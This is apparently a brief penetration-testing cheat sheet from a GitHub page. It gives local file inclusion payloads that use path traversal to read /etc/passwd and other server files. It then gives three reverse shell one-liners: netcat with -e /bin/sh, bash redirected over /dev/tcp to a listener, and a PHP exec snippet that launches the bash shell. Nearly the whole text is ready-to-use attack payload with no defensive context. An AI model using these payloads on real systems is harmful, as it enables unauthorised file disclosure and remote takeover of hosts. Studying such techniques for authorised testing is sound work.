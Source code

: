
# Exposing Sensitive Information Techniques

## LFI

LFI Using Path Traversal
```Bash
<TARGET_URL>/example.php?page=<PATH_TRAVERSAL>
# Example: http://127.0.0.1/example.php?page=../../../../../../etc/passwd
```

LFI Using the File's Path
```Bash
<TARGET_URL>/example.php?page=<DIRECTORY_PATH>
# Example: http://127.0.01/example.php?page=/var/www/html/index.html
```

# Reverse Shells

Connect to a reverse shell listener
```Bash
nc <DESTINATION_IP> <PORT_NUMBER> -e /bin/sh
```
```Bash
bash -i >& /dev/tcp/<DESTINATION_IP>/<PORT_NUMBER> 0>&1
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<DESTINATION_IP>/<PORT_NUMBER> 0>&1'"); ?>
```
